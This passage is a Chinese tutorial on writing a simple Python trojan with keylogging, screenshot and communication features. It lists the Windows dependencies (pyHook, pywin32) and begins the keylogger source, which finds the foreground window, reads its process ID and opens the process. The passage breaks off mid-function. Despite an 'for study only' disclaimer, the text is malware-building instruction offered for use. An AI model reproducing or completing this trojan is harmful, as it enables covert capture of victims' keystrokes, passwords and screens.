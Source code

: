 # Python编写简易木马程序

0x00 准备
=======

* * *

文章内容仅供学习研究、切勿用于非法用途！

这次我们使用Python编写一个具有键盘记录、截屏以及通信功能的简易木马。依然选用Sublime text2 +JEDI（python自动补全插件）来撸代码，安装配置JEDI插件可以参照这里： http://drops.wooyun.org/tips/4413

首先准备好我们需要的依赖库,python hook和pythoncom。

下载安装python hook

![enter image description here](http://drops.javaweb.org/uploads/images/1ae5d96885f893047eabf14e0839dceda421648a.jpg)

下载安装pythoncom模块：

http://sourceforge.net/projects/pywin32/files/pywin32/Build%20219/pywin32-219.win32-py2.7.exe/download

![enter image description here](http://drops.javaweb.org/uploads/images/6d05b61d811ed619153b1e1e2b6b25051f6eb0e9.jpg)

如果觉得麻烦，你可以直接使用集成了所有我们所需要的python库的商业版Activepython（我们可以用他的免费版）：

http://www.activestate.com/activepython

0x01 键盘记录器
==========

* * *

说起Keylogger，大家的思维可能早已飞向带有wifi功能的mini小硬件去了。抛开高科技，我们暂且回归本质，探探简易键盘记录器的原理与实现。

Python keylogger键盘记录的功能的实现主要利用了pythoncom及pythonhook，然后就是对windows API的各种调用。Python之所以用起来方便快捷，主要归功于这些庞大的支持库，正所谓“人生苦短，快用Python”。

代码部分：

```
# -*- coding: utf-8 -*-  
from ctypes import *
import pythoncom
import pyHook
import win32clipboard

user32 = windll.user32
kernel32 = windll.kernel32
psapi = windll.psapi
current_window = None

# 
def get_current_process():

    # 获取最上层的窗口句柄
    hwnd = user32.GetForegroundWindow()

    # 获取进程ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd,byref(pid))

    # 将进程ID存入变量中
    process_id = "%d" % pid.value

    # 申请内存
    executable = create_string_buffer("\x00"*512)
    h_process = kernel32.OpenProcess(0x400 | 0x10,False,pid)
```